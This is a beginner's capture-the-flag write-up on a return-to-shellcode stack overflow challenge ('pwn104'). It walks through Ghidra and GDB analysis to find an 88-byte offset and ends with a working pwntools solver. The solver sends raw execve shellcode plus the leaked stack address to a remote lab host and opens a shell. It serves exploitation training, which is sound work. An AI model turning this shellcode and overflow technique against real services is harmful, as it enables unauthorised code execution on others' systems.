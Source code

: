 ## hi all ✍️📘
This is my experience write up about PWN material (return to shellcode). I try to asnwer challenges after Learning
about the shellcode, I'm not good at it, but here I want to give a little knowledge that I can for help you all who is in a clueless position like I was before.

![Cover](./img/1.png)

## What is Problem
in the challange you should to return flow of binary to shellcode

## Analysis File
So this file is x64 and , you can see the protection file :

![Protection](img/2.png)

## Let's Start Reverse Using Ghidra

![ghidra](img/3.png)

You can see, the leak address has been given by the system, so i just found padding, and return to leak address
And then, you can see, a function read, it's ask user input, and this is a vuln of the chall too.

## Solution

`shellcode + padding + return to shellcode`

## Debuging using GDB-GEF
let's see if i break point at  `printf`  call

![debug1](img/4.png)

after this let's run the program and using `ni` (next instruction until a read func), after this input to much character, hm i using char `A` in this challanges, no probles if you can other char.

![input](img/5.png)

after this, let's check offset and return address for calculate padding. 

![padding](img/6.png)

the start of input address offset is `0x7fffffffdf60` and return address is `0x7fffffffdfb8` 

after i calculate this padding, i found the padding is `88`

![input](img/7.png)

And after this i create solver

## Solver 

```

#!/usr/bin/env python3
from pwn import *

#p = process('./pwn104.pwn104')
p = remote('10.10.83.114', 9004)
sellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = sellcode
payload += b'A' * ( 88 - len(sellcode))
print(payload)
p.recvuntil(b'you at ')
address_leak = p.recvline()
address = int(address_leak.strip(b'\n'), 16)
print(f"Address: 0x{address:x}")
payload += p64(address)
#payload += p64(address)
print(payload)
p.sendline(payload)

p.interactive()

```

And after run this solver i got
![result](img/8.png)


## Quotes ✍️
> "The only people spend a much time is a got a shell"
